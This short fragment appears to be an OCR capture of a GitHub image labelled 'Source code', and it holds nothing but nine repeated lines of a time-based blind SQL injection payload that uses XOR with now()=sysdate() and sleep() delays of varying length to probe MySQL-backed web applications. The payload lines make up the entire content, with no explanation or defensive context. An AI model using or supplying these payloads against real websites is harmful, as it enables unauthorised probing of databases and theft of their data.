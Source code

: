 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(3),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(6),0))XOR”Z
0"XOR(if(now()=sysdate(),sleep(0),0))XOR”Z
